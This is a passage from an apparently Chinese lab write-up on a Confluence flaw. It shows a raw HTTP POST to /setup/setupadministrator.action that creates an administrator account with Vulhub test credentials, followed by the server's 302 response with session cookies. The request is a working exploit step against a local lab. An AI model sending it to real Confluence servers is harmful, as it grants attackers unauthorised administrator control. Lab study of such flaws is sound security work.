 [![](assets/1699929092-9c844d1405bdae8c2d76f46b617babce.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231110153704-f19c6f38-7f9b-1.png)

0x02 添加管理员请求包

请求后正常会302跳转

```plain
POST /setup/setupadministrator.action HTTP/1.1
Host: localhost:8090
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.132 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 110
X-Atlassian-Token: no-check

username=vulhub&fullName=vulhub&email=admin%40vulhub.org&password=vulhub&confirm=vulhub&setup-next-button=Next
```

response

```plain
HTTP/1.1 302 
Cache-Control: no-store
Expires: Thu, 01 Jan 1970 00:00:00 GMT
X-Confluence-Request-Time: 1698332831817
X-XSS-Protection: 1; mode=block
X-Content-Type-Options: nosniff
X-Frame-Options: SAMEORIGIN
Content-Security-Policy: frame-ancestors 'self'
Set-Cookie: JSESSIONID=1E428B7ED069E414E71DCE1824419A91; Path=/; HttpOnly
Set-Cookie: seraph.confluence=425986%3A2718a7a9244706dd728e51b3df100e9bbc26c242; Max-Age=1209600; Expires=Thu, 09 Nov 2023 15:07:12 GMT; Path=/; HttpOnly
Location: /setup/finishsetup.action
Content-Type: text/html;charset=UTF-8
Content-Language: en-US
```
